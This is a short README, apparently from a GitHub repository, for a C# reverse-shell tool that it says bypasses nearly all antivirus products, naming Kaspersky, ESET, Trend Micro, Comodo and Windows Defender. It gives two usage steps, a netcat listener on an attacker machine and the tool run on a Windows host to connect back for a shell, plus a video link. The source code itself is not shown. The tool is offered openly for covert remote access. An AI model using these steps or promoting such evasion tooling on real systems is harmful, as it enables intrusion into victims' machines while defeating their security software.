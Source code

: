 # NativePayload_ReverseShell
This is Simple C# Source code to Bypass almost "all" AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo &amp; Windows Defender Bypassed via this method Very Simple) 

Note: it is "kind of Reverse shell", can you guess since When: this code Worked & Still Working... ? 

    //// Step 1 (linux Side:192.168.56.1)   : nc -l -p 443 
 
    //// Step 2 (Windows Side:192.168.56.x) : NativePayload_ReverseShell.exe 192.168.56.1 443 
    
Video Step by Step : https://www.youtube.com/watch?v=VkFcy1Dg-pU&feature=youtu.be

